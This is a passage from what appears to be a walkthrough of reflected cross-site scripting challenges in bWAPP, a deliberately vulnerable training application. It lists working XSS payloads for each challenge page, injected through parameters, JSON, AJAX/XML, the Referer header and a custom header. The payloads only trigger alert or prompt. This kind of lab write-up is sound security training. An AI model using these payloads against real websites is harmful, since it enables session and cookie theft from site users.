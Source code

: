the same but with POST request

```
<script>alert(document.cookie)</script>
```

### 💀  XSS - Reflected (JSON) 💀

xss_json.php

```
"}]}';prompt(0)</script>

```
```
title="%7D%5D%7D%27%3Bprompt%28"Hi%2C+Enter+Your+Name+Other+wise+your+game+is+ver+%3A0"%29<%2Fscript>&action=search
```
### 💀  XSS - Reflected (AJAX/JSON) 💀

xss_ajax_2-1.php

```
<svg onload=prompt(0)>
```

### 💀  XSS - Reflected (AJAX/XML) 💀

xss_ajax_1-1.php

```
&lt;img src=&apos;#&apos; onerror=&apos;alert(1)&apos;&gt;
```

Alternatively I was able to get XSS to execute on the AJAX called.

```
xss_ajax_1-2.php?title=<html xmlns='http://www.w3.org/1999/xhtml'><script>prompt(0)</script></html>
```

### 💀  XSS - Reflected (Back Button) 💀

Modify Referer header field

```
Referer: ';alert(1);'
```

### 💀  XSS - Reflected (Custom Header) 💀

Add header field

```
bWAPP: <script>alert(1)</script>
```

### 💀  XSS - Reflected (Eval) 💀

```
date=alert(1)
```
